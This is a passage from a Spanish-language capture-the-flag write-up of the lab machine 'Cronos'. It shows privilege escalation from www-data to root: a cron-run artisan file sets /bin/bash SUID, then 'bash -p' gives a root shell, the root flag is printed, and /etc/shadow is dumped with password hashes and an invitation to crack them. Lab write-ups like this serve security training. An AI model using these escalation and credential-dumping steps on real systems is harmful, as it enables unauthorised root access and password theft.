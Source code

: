```bash

/*
|--------------------------------------------------------------------------
| Shutdown The Application
|--------------------------------------------------------------------------
|
| Once Artisan has finished running. We will fire off the shutdown events
| so that any final work may be done by the application before we shut
| down the process. This is the last thing to happen to the request.
|
*/

$kernel->terminate($input, $status);

exit($status);
www-data@cronos:/dev/shm$ 
```

Después de que la tarea se ejecuta vemos que funciona

```bash
www-data@cronos:/dev/shm$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1037528 Jun 24  2016 /bin/bash
www-data@cronos:/dev/shm$
```

## Shell as root && root flag 

Y ahora somos **root**

```bash
www-data@cronos:/dev/shm$ bash -p
bash-4.3# cd /root
bash-4.3# cat root.txt 
b5cc776e1d79fdac052bf9587cb66462
bash-4.3# 
```

Estos son los hashes de los usuarios si logras crackearlos podrás ver sus contraseñas en texto claro

```bash
bash-4.3# cat /etc/shadow
root:$6$L2m6DJwN$p/xas4tCNp19sda4q2ZzGC82Ix7GiEb7xvCbzWCsFHs/eR82G4/YOnni/.L69tpCkOGo5lm0AU7zh9lP5fL6A0:17247:0:99999:7:::
daemon:*:17212:0:99999:7:::
bin:*:17212:0:99999:7:::
sys:*:17212:0:99999:7:::
sync:*:17212:0:99999:7:::
games:*:17212:0:99999:7:::
man:*:17212:0:99999:7:::
lp:*:17212:0:99999:7:::
mail:*:17212:0:99999:7:::
news:*:17212:0:99999:7:::
uucp:*:17212:0:99999:7:::
proxy:*:17212:0:99999:7:::
www-data:$6$SYixzIan$P3cvyztSwA1lmILF3kpKcqZpYSDONYwMwplB62RWu1RklKqIGCX1zleXuVwzxjLcpU6bhiW9N03AWkzVUZhms.:17264:0:99999:7:::
backup:*:17212:0:99999:7:::
list:*:17212:0:99999:7:::
irc:*:17212:0:99999:7:::
gnats:*:17212:0:99999:7:::
nobody:*:17212:0:99999:7:::
systemd-timesync:*:17212:0:99999:7:::
systemd-network:*:17212:0:99999:7:::
systemd-resolve:*:17212:0:99999:7:::
```